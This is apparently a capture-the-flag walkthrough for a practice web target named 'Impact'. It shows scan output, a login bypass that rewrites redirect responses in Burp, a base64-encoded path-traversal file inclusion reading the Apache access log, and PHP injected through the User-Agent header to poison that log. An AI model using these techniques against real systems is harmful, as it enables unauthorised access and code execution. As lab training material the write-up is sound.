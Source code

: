 #+title: Impact
#+author: gabriel

* intro
A hacker group organises cyber attacks against companies and offers the sensitive data they obtain for sale with cryptocurrency on the website called "Impact". This hacker group is increasing the list of target companies every day. Your task is to register as an ordinary customer on this website and collect information about the hacker group and its manager. Good luck in your mission!

* info gathering


#+begin_src sh
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_impact_hv-1760458064.state ...
[#>------------------] - 2m     19591/270037  75m     found:21      errors:4932
[##>-----------------] - 2m      3978/30000   28/s    http://impact.hv/
[##>-----------------] - 2m      3689/30000   27/s    http://impact.hv/js/
[#>------------------] - 2m      1784/30000   13/s    http://impact.hv/uploads/
[##>-----------------] - 2m      3770/30000   28/s    http://impact.hv/css/
[#>------------------] - 2m      2323/30000   18/s    http://impact.hv/fonts/
[>-------------------] - 2m      1461/30000   11/s    http://impact.hv/webadmin/
#+end_src

*admin email* ->
: zerotrace@secretmail.hv

access the application, create a user and log into the account, after logging in, send the payment request to the "hacker" (the admin)

Is possible to bypass the login page with the /webadmin/ page, when we access /webadmin/ we are redirect to the /webadmin/login

With Burp, if we modify the response status code from 302 to 200, we bypass the login page. But this is possible with proxy intercet, where we can modify the response before reach the browser.

To modify and continue with the modified response, we need to create a match and replace rule on proxy settings ->

Create an rule where all 302 Response headers go to 200

After login adminpanel, accept the request from your normal user created early.
*LFI to read access.log* ->
#+begin_src sh
GET /search.php?name=Li4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vdmFyL2xvZy9hcGFjaGUyL2FjY2Vzcy5sb2c%3d HTTP/1.1
Host: impact.hv
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://impact.hv/profile.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=seccun2ljsqg1ot2el57pvngf0
Connection: keep-alive
#+end_src

*test injection with User-Agent header* ->
#+begin_src sh
[19:36][]~ ✮ curl -v 'http://impact.hv/' -A "<?php echo 'Hello World'; ?>"
 Host impact.hv:80 was resolved.
 IPv6: (none)
 IPv4: 172.20.24.170
   Trying 172.20.24.170:80...
 Established connection to impact.hv (172.20.24.170 port 80) from 10.8.58.60 port
 33472
 using HTTP/1.x
> GET / HTTP/1.1
> Host: impact.hv
> User-Agent: <?php echo 'Hello World'; ?>
> Accept: /
>
 Request completely sent off
< HTTP/1.1 200 OK
< Date: Tue, 14 Oct 2025 22:40:10 GMT
< Server: Apache/2.4.59 (Debian)
< Set-Cookie: PHPSESSID=vmq5uvrhdsldur0bh8lukk9kl9; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 5235
< Content-Type: text/html; charset=UTF-8
<
<!DOCTYPE html>
<html lang="en">
<head>
#+end_src

Checking the access.log file again, you can see that the injection was successful ->
#+begin_src javascript
10.8.58.60 - - [14/Oct/2025:18:37:57 -0400] "GET /search.php?name=Li4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vdmFyL2xvZy9hcGFjaGUyL2FjY2Vzcy5sb2c%3d HTTP/1.1" 200 1098 "http://impact.hv/profile.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36"
10.8.58.60 - - [14/Oct/2025:18:40:10 -0400] "GET / HTTP/1.1" 200 5576 "-" "Hello World"
#+end_src


